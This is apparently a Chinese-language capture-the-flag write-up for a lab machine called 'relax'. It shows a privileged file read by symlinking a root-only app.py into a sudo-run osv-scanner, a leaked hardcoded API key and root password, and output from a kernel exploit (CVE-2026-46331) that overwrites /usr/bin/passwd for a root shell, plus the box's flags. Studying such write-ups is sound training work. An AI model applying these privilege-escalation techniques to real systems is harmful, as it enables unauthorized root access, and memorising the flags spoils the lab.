react2shell@relax:/tmp$ systemctl cat bbb.service
# /etc/systemd/system/bbb.service
[Unit]
Description=AI Inference Service Lab
After=network.target

[Service]
Type=simple
User=root
WorkingDirectory=/opt/secret/
ExecStart=/usr/bin/python3 -m uvicorn app:app --host 127.0.0.1 --port 8000
Restart=always
RestartSec=3
LimitNOFILE=65535
Environment=PYTHONUNBUFFERED=1

[Install]
WantedBy=multi-user.target
react2shell@relax:/tmp$ systemctl status bbb.service
● bbb.service - AI Inference Service Lab
     Loaded: loaded (/etc/systemd/system/bbb.service; enabled; preset: enabled)
     Active: active (running) since Sun 2026-07-12 11:53:39 EDT; 56min ago
 Invocation: 21fec21fd9e34f45b299325cd2d9035d
   Main PID: 388 (python3)
      Tasks: 6 (limit: 2274)
     Memory: 73.2M (peak: 73.5M)
        CPU: 4.314s
     CGroup: /system.slice/bbb.service
             └─388 /usr/bin/python3 -m uvicorn app:app --host 127.0.0.1 --port >

react2shell@relax:/tmp$ 
```

在这种启动方式下，Python 会从当前工作目录 `/opt/secret/`​ 里找模块 `app`，所以猜测最终启动的是下面这个文件

```bash
/opt/secret/app.py
```

`ls /opt/secret`​ 没权限，继续用 `osv-scanner` 去读源码：

```bash
mkdir -p /tmp/readtest
ln -sf /opt/secret/app.py /tmp/readtest/yarn.lock
sudo /root/osv-scanner scan source --lockfile /tmp/readtest/yarn.lock --offline
```



```python
from __future__ import annotations

import time
from typing import Any

import uvicorn
from fastapi import FastAPI, Request
from pydantic import BaseModel
from starlette.responses import JSONResponse

app = FastAPI(
    title="AI Inference Service",
    description="Enterprise-grade AI model serving platform",
    version="1.2.3",
)

PUBLIC_PATH_PREFIXES = (
    "/health",
    "/public",
    "/docs",
    "/openapi.json",
    "/redoc",
)

API_KEY = "have_some_relax"


@app.middleware("http")
async def auth_middleware(request: Request, call_next):
    path = request.url.path

    if any(path.startswith(prefix) for prefix in PUBLIC_PATH_PREFIXES):
        return await call_next(request)

    if request.headers.get("X-API-Key") != API_KEY:
        return JSONResponse(
            status_code=403,
            content={"detail": "Unauthorized. Valid X-API-Key header is required."},
        )

    return await call_next(request)


@app.get("/health")
async def health() -> dict[str, Any]:
    return {
        "status": "healthy",
        "service": "ai-inference",
    }


@app.get("/public/info")
async def public_info() -> dict[str, Any]:
    return {
        "service": "ai-inference-platform",
        "version": "1.2.3",
        "status": "operational",
    }


@app.get("/admin")
async def admin_dashboard() -> dict[str, Any]:
    return {
        "status": "ok",
        "message": "root pass is osvvso",
        "timestamp": "now",
    }


@app.get("/admin/users/{user_id}")
async def get_user(user_id: int) -> dict[str, Any]:
    return {
        "user_id": user_id,
        "status": "active",
        "role": "admin",
    }


@app.get("/v1/models")
async def list_models() -> dict[str, Any]:
    return {
        "object": "list",
        "data": [
            {
                "id": "internal-llm-prod",
                "object": "model",
                "owned_by": "org",
            },
            {
                "id": "security-agent",
                "object": "model",
                "owned_by": "org",
            },
        ],
    }


class ChatRequest(BaseModel):
    model: str
    messages: list[dict[str, str]]
    temperature: float = 0.7
    max_tokens: int = 1024


@app.post("/v1/chat/completions")
async def chat_completions(body: ChatRequest) -> dict[str, Any]:
    return {
        "id": "chatcmpl-local",
        "object": "chat.completion",
        "created": int(time.time()),
        "model": body.model,
        "choices": [
            {
                "index": 0,
                "message": {
                    "role": "assistant",
                    "content": "Internal inference response placeholder.",
                },
                "finish_reason": "stop",
            }
        ],
        "usage": {
            "prompt_tokens": len(body.messages),
            "completion_tokens": 5,
            "total_tokens": len(body.messages) + 5,
        },
    }


@app.post("/mcp")
async def mcp_endpoint(payload: dict[str, Any]) -> dict[str, Any]:
    return {
        "jsonrpc": "2.0",
        "id": 1,
        "result": {
            "name": "ai-inference-service",
            "tools": [
                "list_models",
                "chat_completions",
            ],
        },
    }


if __name__ == "__main__":
    uvicorn.run(app, host="127.0.0.1", port=8000)
```

在源码中可以发现有 key

```
API_KEY = "have_some_relax"
```

然后带 key 访问 `/admin`，直接给了 root 口令，不访问也许，源码中也出现了 root 密码


```python
@app.get("/admin")
async def admin_dashboard() -> dict[str, Any]:
    return {
        "status": "ok",
        "message": "root pass is osvvso",
        "timestamp": "now",
    }

```

拿到凭证，直接 ssh 登入即可

> root:osvvso



## 非预期

直接使用 CVE-2026-46331 提权了

```python
[*] 执行 PACKET_EDIT_MEME exploit...
[*] PACKET_EDIT_MEME CVE-2026-46331 exploit...
[*] target /usr/bin/passwd as uid 988; entry at file offset 0x6090; shellcode 48 bytes
[*] calibration ok: marker landed at 520, offset_delta=8 (mode=basic+ematch)
[+] /usr/bin/passwd entry overwritten; exec'ing carrier -> interactive root shell
# id
uid=0(root) gid=0(root) groups=0(root),988(react2shell)
#   
```



flag：

> user.txt：`flag{266a1f7c2e2345169d3bc448da45eae6}`
>
> root.txt：`flag{7f791f89aca4f442da5d968f1d01eedb}`


---

> 作者: [lpppp](/)  
> URL: https://lpppp.xyz/posts/relax/  

